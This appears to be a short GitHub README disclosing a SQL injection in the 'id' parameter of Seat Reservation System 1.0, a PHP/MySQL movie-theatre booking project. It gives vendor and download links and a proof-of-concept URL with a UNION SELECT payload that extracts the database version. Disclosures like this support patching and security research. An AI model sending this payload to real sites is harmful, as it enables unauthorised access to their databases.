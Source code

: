 # Seat-Reservation-System  
* Exploit Title: Seat Reservation System 1.0 - 'id' SQL Injection  
*  Vendor Homepage: https://www.sourcecodester.com/php/14452/seat-reservation-system-movie-theater-project-using-phpmysql.htm  
* Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/seat-reservation-system-using-php_0.zip  
* parameter : id  
* POC 
/URL/index.php?page=reserve&id=''union%20select%201,version(),3,4,5,6,7,8--     
![image](https://github.com/BigTiger2020/Seat-Reservation-System/blob/main/02.png) 
![image](https://github.com/BigTiger2020/Seat-Reservation-System/blob/main/01.png)  

